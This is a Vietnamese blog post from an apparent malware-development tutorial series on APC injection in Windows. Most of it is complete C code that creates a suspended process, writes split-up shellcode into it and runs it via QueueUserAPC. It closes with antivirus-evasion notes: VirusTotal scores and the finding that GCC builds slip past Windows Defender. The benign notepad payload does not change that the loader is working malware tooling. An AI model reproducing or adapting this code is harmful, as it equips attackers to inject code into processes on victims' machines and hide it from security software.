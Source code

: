 ## APC Injection

### Logic hoạt động
Sử dụng `QueueUserAPC` API để xếp hàng vào 1 APC, tham số và cách sử dụng của hàm này xem tại trang của microsoft: [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc).

Sau khi gọi API trên, APC function được thực thi đã được cài đặt thông qua QueueUserAPC, process cần phải được đặt trong trạng thái cảnh báo (alertable state). Điều này có thể đạt được bằng cách tạo 1 thread sau đó sử dụng các API sau:

- `Sleep`
- `SleepEx`
- `MsgWaitForMultipleObjects`
- `MsgWaitForMultipleObjectsEx`
- `WaitForSingleObject`
- `WaitForSingleObjectEx`
- `WaitForMultipleObjects`
- `WaitForMultipleObjectsEx`
- `SignalObjectAndWait`

Ngoài ra, còn 2 cách nữa đó là:

- Tạo tiến trình với trạng thái `CREATE_SUSPENDED` và sau đó sử dụng `ResumeThread`
- Tạo tiến trình với trạng thái `DEBUG_PROCESS` và sau đó sử dụng `DebugActiveProcessStop` để tiếp tục tiến trình.

### Code
Phần code khá đơn giản so với các kiểu inject khác, dưới đây là code inject vào remote process để thực thi tải trọng mở notepad.
Mã tải trọng được tạo ra đã được nhắc đến trong 1 bài viết khác của tôi: [Payload Placement](https://github.com/vuongle-vigo/MalDevAcademy-Blog/tree/main/25-12-2023%20Payload%20Placement)


```c
# include <Windows.h>
# include <stdio.h>

BOOL RunViaApcInjection(IN HANDLE hThread, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
	PVOID pAddress = NULL;
	DWORD dwOldProtection = NULL;

	pAddress = VirtualAllocEx(hProcess, NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, NULL)) {
		printf("\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CreateSuspendedProcess(IN LPCSTR lpProcessPath, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	si.cb = sizeof(STARTUPINFOA);

	if (!CreateProcessA(NULL, lpProcessPath, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}

	*dwProcessId = pi.dwProcessId;
	*hProcess = pi.hProcess;
	*hThread = pi.hThread;

	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL) {
		return TRUE;
	}

	return FALSE;
}

unsigned char sc_0[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51";
const unsigned char sc_1[] = "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52";
unsigned char sc_2[] = "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0";
const unsigned char sc_3[] = "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed";
unsigned char sc_4[] = "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88";
const unsigned char sc_5[] = "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44";
unsigned char sc_6[] = "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48";
const unsigned char sc_7[] = "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1";
unsigned char sc_8[] = "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44";
const unsigned char sc_9[] = "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49";
unsigned char sc_10[] = "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a";
const unsigned char sc_11[] = "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41";
unsigned char sc_12[] = "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00";
const unsigned char sc_13[] = "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b";
unsigned char sc_14[] = "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff";
const unsigned char sc_15[] = "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47";
unsigned char sc_16[] = "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70";
const unsigned char sc_17[] = "\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";

unsigned char sc[18 * 16];
void build_sc() {
	memcpy(&sc[0], sc_0, 16);
	memcpy(&sc[16 * 1], sc_1, 16);
	memcpy(&sc[16 * 2], sc_2, 16);
	memcpy(&sc[16 * 3], sc_3, 16);
	memcpy(&sc[16 * 4], sc_4, 16);
	memcpy(&sc[16 * 5], sc_5, 16);
	memcpy(&sc[16 * 6], sc_6, 16);
	memcpy(&sc[16 * 7], sc_7, 16);
	memcpy(&sc[16 * 8], sc_8, 16);
	memcpy(&sc[16 * 9], sc_9, 16);
	memcpy(&sc[16 * 10], sc_10, 16);
	memcpy(&sc[16 * 11], sc_11, 16);
	memcpy(&sc[16 * 12], sc_12, 16);
	memcpy(&sc[16 * 13], sc_13, 16);
	memcpy(&sc[16 * 14], sc_14, 16);
	memcpy(&sc[16 * 15], sc_15, 16);
	memcpy(&sc[16 * 16], sc_16, 16);
	memcpy(&sc[16 * 17], sc_17, 16);
}

int main() {
	build_sc();

	DWORD dwProcessId;
	HANDLE hProcess, hThread;
	
	if (!CreateSuspendedProcess("C:\\Windows\\System32\\notepad.exe", &dwProcessId, &hProcess, &hThread)) {
		printf("[!] CreateSuspendedProcess Failed\n");
		return -1;
	}
	
	if (!RunViaApcInjection(hThread, hProcess, sc, sizeof(sc))) {
		printf("[!] RunViaApcInjection Failed\n");
		return -1;
	}

	ResumeThread(hThread);
	//DebugActiveProcessStop(dwProcessId);
	printf(
		"Done"
	);
}
```



### Check AV Windows 10 Defender
- VS2022: Build no debug info + MT release, bị phát hiện mã độc ngay khi build xong, và chuyển qua máy ảo mà chưa cần chạy (Virus total: 22/72)
- GCC: Với phiên bản shellcode lỗi, quá trình chạy không gây ra vấn đề gì (vấn đề nằm ở shellcode)
- GCC: Với phiên bản shellcode chuẩn, scan không bị phát hiện, chạy cũng không bị phát hiện trên máy ảo, tuy nhiên vẫn có khả năng bị phát hiện do shellcode được giải mã và có signature. (Virus total: 21/73)
 
=> Việc build bằng GCC có thể giúp tăng khả năng che dấu của mã.

### Update
- VS2022: Sau khi áp dụng các kĩ thuật ở phần Malware Compiling, không bị phát hiện nếu không sử dụng shellcode gốc. (Virus total: 22/72)
